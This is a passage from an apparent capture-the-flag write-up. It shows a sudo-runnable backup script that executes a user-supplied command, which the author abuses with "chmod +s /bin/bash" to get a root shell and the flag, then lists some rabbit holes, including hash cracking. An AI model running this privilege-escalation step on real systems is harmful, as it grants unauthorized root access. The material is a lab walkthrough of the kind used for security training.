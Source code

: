 ```bash
# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```

- With some online help, I was able to discover that a `-c` argument can be added to the script, which will then pip the output to the `$cmd` variable. To grab a root shell, use the following syntax:

```bash
sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"
```

- Once done, we can navigate to the `root` directory and grab the `root.txt` flag:
	- flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
***Note: Make sure you are in the / directory before running the above or else it will not work.***

## Rabbit Holes
### Config
-  I tried to use the output of the `config` file in the archive to make an id rsa key since the output of the `key` field looked something like that. Unfortunately, that was a waste of time. However, it is important to note that, when using an id_rsa key to authenticate via SSH, change the permissions of the id_rsa file to 600 with `chmod 600 id_rsa`.

### Squid Proxy
- When I first uncovered the credentials, I thought they would lead me to some sort of configuration page via the Squid proxy. I did some googling around to try and find the hash format for the Squid proxy (which uses MD5, by the way), but the formats didn't match. I tried to crack that hash with [Crackstation](https://crackstation.net/), but never got anywhere. 
